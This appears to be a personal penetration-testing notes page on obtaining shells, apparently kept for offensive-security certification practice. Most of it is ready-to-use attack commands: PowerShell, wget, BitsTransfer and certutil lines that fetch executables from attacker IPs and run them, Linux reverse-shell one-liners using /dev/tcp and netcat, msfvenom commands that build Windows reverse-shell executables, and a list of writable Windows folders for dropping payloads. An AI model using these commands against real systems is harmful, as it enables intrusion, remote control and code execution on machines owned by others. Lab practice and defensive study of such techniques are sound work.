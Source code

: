 ```yaml
---
layout: post
title: Shells
titledate: 10/31/23
tags: ["infosec","offsec","shell", "privesc", "certutil"]
---
```


### [payload_generator](https://www.revshells.com/)

### [reverse_shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

may just have to use an installed language ruby/python/perl to create network connection back to our machine

if we have cmd execution on win we can see if we are in a cmd or powershell process

    (dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

#### Windows

retrieve shell to executable dir

- C:\Users<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users<username>\AppData\Local\Microsoft\Windows\INetCache\IE<subdir>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV
- C:\Windows\Temp
- C:\Users\Public\Downloads

#### Download File

    (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerView.ps1", "C:\Windows\Temp\PowerView.ps1")

    wget "http://10.10.10.10/taskkill.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

    Import-Module BitsTransfer; Start-BitsTransfer -Source $url -Destination $output

    PS> certutil.exe -urlcache -split -f http://192.168.45.215:8000/rs443.exe C:\Windows\Temp\rs443.exe & C:\Windows\Temp\rs443.exe

    iwr -uri 192.168.45.222:8000/rs443.exe -Outfile C:\Users\Public\rs443.exe

### NOTE: download from pyton http server if possible, may give error but file will download and be executable, from windows iis server may have issues


powershell

in - /offsec/OSCP/payloads/powershell

- encode.py - powershell base64 reverse shell hardcoded ip:port in python
- mkpsrevshell.py - powershell base64 reverse shell takes ip port as argument

#### Linux

one liner

    /bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1

    nc -e /bin/bash 10.0.0.1 4242

    bash -i >& /dev/tcp/192.168.1.1/443 0>&1

    bash -c "bash -i >& /dev/tcp/192.168.1.1/443 0>&1"

#### Generate Shells with msfvenom

    └─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.210 LPORT=443 -f exe -o rs443.exe
    └─$ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.10.210 LPORT=443 -f exe -o rs443.exe
